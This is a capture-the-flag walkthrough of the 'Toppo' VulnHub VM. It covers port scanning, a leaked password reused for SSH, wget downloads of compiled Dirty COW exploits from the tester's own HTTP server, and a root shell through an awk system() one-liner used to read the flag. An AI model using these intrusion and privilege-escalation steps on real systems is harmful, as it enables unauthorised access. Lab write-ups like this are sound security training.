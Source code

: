 ## Toppo VulnHub VM walkthrough

Toppo by https://twitter.com/h4d3sw0rm

Link: https://www.vulnhub.com/entry/toppo-1,245/



```
The Machine isn't hard to own and don't require advanced exploitation .

Level : Beginner

DHCP : activated

Inside the zip you will find a vmdk file , and I think you will be able to use it with any usual virtualization software ( tested with Virtualbox) .

If you have any question : my twitter is @h4d3sw0rm

Happy Hacking !
```


## Solution

When I've ran **Toppo** on VirtualBox, it shows me IP assigned by my DHCP: 192.168.1.5. First things first - `nmap` scan to discover running sevices, their versions, OS version and so on:

```
bl4de:~/playground/VulnHub $ nmap -p- -sV -A 192.168.1.5
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-20 18:07 IST
Nmap scan report for 192.168.1.5
Host is up (0.10s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 ec:61:97:9f:4d:cb:75:99:59:d4:c1:c4:d4:3e:d9:dc (DSA)
|   2048 89:99:c4:54:9a:18:66:f7:cd:8e:ab:b6:aa:31:2e:c6 (RSA)
|   256 60:be:dd:8f:1a:d7:a3:f3:fe:21:cc:2f:11:30:7b:0d (ECDSA)
|_  256 39:d9:79:26:60:3d:6c:a2:1e:8b:19:71:c0:e2:5e:5f (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Clean Blog - Start Bootstrap Theme
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          43451/udp  status
|_  100024  1          48747/tcp  status
48747/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 193.24 seconds
```

As expected, typical services were running (`www` and `ssh`). 
Let's figure out if there is any web application run:


![](assets/1.png)

Yep, some Simple Blog web app is present. MAybe it's based on CMS with well known vulnerabilities or is just some poorly written hand-made PHP app?

Quick recon with `wfuzz` and some standard dictionaries reveals `admin` and `mail` folders. `admin` contains only one file: `notes.txt` with very interesting information:


![](assets/2.png)


`mail` folder contains only one PHP file: `contact_me.php`. Further investigation reveals `http://192.168.1.5/contact.html`  which posts a form to this file:


![](assets/5.png)


### Down The Rabbit Hole

Yep, I've assumed that what I've needed to do was to exploit contact form to get an access to the server. That was a pretty nice rabbit hole (I don't know if it was intentionally), and pretty obvious attack vector for someone who spend 95% of his hacking time digging into web apps :D, and I've spent some time trying to exploit non-existent vulnearbilities in `contact_me.php`. I've tried many payloads searching for LFI, SQL Injection and so on, and I've been loosing more and more confidence with every single fired payload, which fails.


![](assets/4.png)


Obvioulsy, nothing worked, but I've promised to get back to this later, keeping in mind every elite haxor Rule No. 1 - **Try Harder!**  (_spoiler: I didn't get back, as it wasn't the way to pwn this VM ;)_ )


### Getting back on track

I decided to get back to this weird `notes.txt` file:

```
Note to myself :

I need to change my password :/ 12345ted123 is too outdated but the technology isn't my thing i prefer go fishing or watching soccer .

```

Because `ssh` was working, I decided to give it a try and log in using found password and maybe some usernames. The first username I've tried was `toppo`, but it didn't work. To my surprise, on second attempt, with username `ted` found in the middle of revealed password, I was able to log in. Yay! We've got a shell!


![](assets/6.png)


Now, some post-exploitation stuff: `LinEnum.sh` to see more details about the machine and then `linux-exploit-suggester.sh` to find out what juicy exploit can be run on this machine.


`LinEnum` did not reveral anything exciting, except one thing: `/usr/bin/awk` can be run as `root`. As I've been focused on finding the right exploit, I've noted the fact about `awk` somewhere in my head and went straight to `linux-exploit-suggester.sh` results. Some entries immediately caught my attention:


![](assets/7.png)


`dirtycow` sounds like a good choice. `searchsploit` gave me some really promising list of Privilege Escallation exploits for Linux with kernels from 2.6.22 up to 3.9 (`Toppo` is a Debian 8 Jessie machine with kernel 3.16.0-4-586)


![](assets/8.png)



### Setting up file transfer


There was one small problem though. `Toppo` has no `gcc` installed, so I needed to find out how to compile exploits outside and send them to `Toppo`. There are plenty of methods to do such things, here's how I've created an easy way to exchange files between machines.


On my host machine (macOS High Sierra), in a folder where I kept all files i wanted to have send to `Toppo`, I ran Node HTTP Simple Server.

You can install one with this command (you will need NodeJs and npm installed and configured first):

```
$ npm i -g http-server
```

Now, you can run HTTP server in ANY folder you want:

```
bl4de:~/playground/VulnHub $ http-server -p 3000 ./
Starting up http-server, serving ./
Available on:
  http://127.0.0.1:3000
  http://192.168.1.1:3000
Hit CTRL-C to stop the server

[Fri Jul 20 2018 00:44:45 GMT+0100 (IST)] "GET /LinEnum.sh" "Wget/1.16 (linux-gnu)"
```


From `Toppo`, I was able to download any file I needed, using `wget`, including compiled exploits:


```
ted@Toppo:~$ wget http://192.168.1.1:3000/dirtycow2
converted 'http://192.168.1.1:3000/dirtycow2' (ANSI_X3.4-1968) -> 'http://192.168.1.1:3000/dirtycow2' (UTF-8)
--2018-07-20 00:06:56--  http://192.168.1.1:3000/dirtycow2
Connecting to 192.168.1.1:3000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 12685 (12K) [application/octet-stream]
Saving to: 'dirtycow2'

dirtycow2                 100%[====================================>]  12.39K  --.-KB/s   in 0s

2018-07-20 00:06:56 (204 MB/s) - 'dirtycow2' saved [12685/12685]

ted@Toppo:~$
```

_(BTW, I compile those exploits using another VM, Ubuntu 14.04, run with Vagrant)_


Unfortunately, none of Dirty Cow exploits worked, so I decided to use discovered `awk`, which `ted` was able to use with root privileges.

The only thing left to do was to find a way to run system commands with `awk`. Below is a very nice oneliner to achieve this, which I found on https://guif.re/linuxeop website (by Guifre Ruiz - https://twitter.com/GuifreRuiz):

```
awk 'BEGIN {system("/bin/bash")}'
```

As I didn't need to spawn a shell (I just wanted to read what's in `/root` folder), I've edited the command to list content of `/roo` directory and finally was able to get the flag and pwn `Toppo` VM:


```
ted@Toppo:~$ awk 'BEGIN {system("ls -l /root")}'
total 4
-rw-r--r-- 1 root root 397 Apr 15 10:19 flag.txt
ted@Toppo:~$ awk 'BEGIN {system("cat /root/flag.txt")}'
_________
|  _   _  |
|_/ | | \_|.--.   _ .--.   _ .--.    .--.
    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \
   _| |_ | \__. | | \__/ | | \__/ || \__. |
  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'
                 [__|     [__|




Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}



ted@Toppo:~$
```


Flag: **0wnedlab{p4ssi0n_c0me_with_pract1ce}**


## Wrap-up

`Toppo` was very nice and interesting challenge. Thank you @h4d3sw0rm for this very interetsing VM :) I look forward for your another VMs!

Happy Hacking!

bl4de
